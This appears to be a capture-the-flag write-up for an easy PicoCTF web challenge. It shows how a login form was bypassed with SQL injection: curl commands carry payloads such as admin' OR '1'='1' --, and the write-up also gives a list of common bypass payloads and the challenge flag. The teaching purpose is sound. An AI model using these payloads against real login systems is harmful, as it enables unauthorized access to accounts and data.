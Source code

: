 # Example: SQL Injection Basic

**Category**: Web  
**Difficulty**: Easy  
**Points**: 100  
**Platform**: PicoCTF  
**Date Solved**: 2024-01-15

## Challenge Description

Can you log into this web application? Try to see if you can login!

Additional details: The web application appears to be a simple login form.

## Files/URLs Provided

- http://mercury.picoctf.net:39515/

## Initial Analysis

### First Impressions
- Simple login form with username and password fields
- Likely vulnerable to SQL injection based on challenge name
- No registration functionality visible

### Tools Used for Initial Reconnaissance
- Web browser for initial exploration
- Burp Suite for request interception
- curl for testing payloads

## Solution Process

### Step 1: Analyze the Login Form
Examined the login form and noticed it's a basic HTML form submitting to `/login` endpoint.

```html
<form method="POST" action="/login">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" value="Login">
</form>
```

**Findings**: Standard login form, no client-side validation visible.

### Step 2: Test for SQL Injection
Tried basic SQL injection payloads in the username field:

```bash
# Test payload 1
curl -X POST http://mercury.picoctf.net:39515/login \
  -d "username=admin'&password=anything"
```

Received an SQL error, confirming the vulnerability.

### Step 3: Exploit the Vulnerability
Used a classic SQL injection bypass payload:

```bash
# Successful payload
curl -X POST http://mercury.picoctf.net:39515/login \
  -d "username=admin' OR '1'='1' --&password=anything"
```

**Findings**: Successfully bypassed authentication and gained access.

### Final Step: Getting the flag
After successful login, the application displayed the flag on the dashboard page.

## Flag
```
picoCTF{50meth1ng_50meth1ng_5ql_1nj3ct10n}
```

## Key Learning Points

- Basic SQL injection can bypass authentication by manipulating the WHERE clause
- Comment syntax (--) is crucial to ignore the rest of the SQL query
- Always test for SQL injection in any input field that interacts with a database
- Error messages can provide valuable information about the database structure

## Tools and Techniques Used

- **Tools**: curl, Burp Suite, web browser
- **Techniques**: SQL injection, boolean-based bypass, comment injection
- **Resources**: OWASP SQL Injection Prevention Cheat Sheet

## Notes for Future Reference

- For authentication bypass, focus on making the WHERE clause always true
- Common payloads: `admin' OR '1'='1' --`, `admin' OR 1=1 --`
- Remember to URL-encode special characters when necessary
- Test both username and password fields for injection points

## Time Spent
- **Total time**: 25 minutes
- **Breakdown**: 
  - Initial analysis: 5 minutes
  - Testing and exploitation: 15 minutes
  - Documentation: 5 minutes

---
*Challenge completed as part of CTF learning journey - Example Writeup*